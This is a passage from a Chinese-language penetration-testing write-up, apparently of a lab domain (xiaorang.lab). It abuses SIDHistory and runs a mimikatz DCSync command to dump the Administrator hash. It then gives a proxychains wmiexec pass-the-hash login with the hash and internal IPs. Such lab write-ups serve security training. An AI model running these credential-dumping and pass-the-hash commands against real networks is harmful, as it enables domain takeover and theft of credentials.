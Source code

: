 登录此`yuxuan`用户，用`BloodHound`分析域内关系，发现这个用户滥用了SID历史功能

[![](assets/1705540441-0bf8457c68e10fdefb21e5c35f1c3e63.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175334-1d28887e-b455-1.png)

```plain
SIDHistory是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的SID作为该对象的objectSid，在之前域中的SID会添加到该对象的sIDHistory属性中，此时该对象将保留在原来域的SID对应的访问权限
```

所以直接可以dcsync抓取域管哈希

```plain
lsadump::dcsync /domain:xiaorang.lab /user:Administrator
```

[![](assets/1705540441-fa4251d182a6344f6b657d17f7f7172b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175346-240757f6-b455-1.png)

wmiexec登录

```plain
proxychains python3 wmiexec.py xiaorang/Administrator@172.22.6.25 -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 -dc-ip 172.22.6.12
```

[![](assets/1705540441-5b454a666f11a58800799b7bc9862cb7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175351-26f059b8-b455-1.png)
